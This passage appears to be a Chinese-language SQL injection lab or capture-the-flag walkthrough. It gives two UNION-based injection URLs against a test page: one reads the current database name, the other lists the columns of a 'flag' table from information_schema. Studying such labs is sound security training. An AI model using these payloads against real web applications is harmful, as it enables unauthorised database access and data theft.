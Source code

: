 获取当前数据库名称

```
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=‘-1' union select 1,database(),3,4 --'
```

![获取当前数据库名称](/images/1_2.png)

获取`flag`表的所有列

```
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= -1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'flag' %23
```

![获取flag表的所有列](/images/1_3.png)

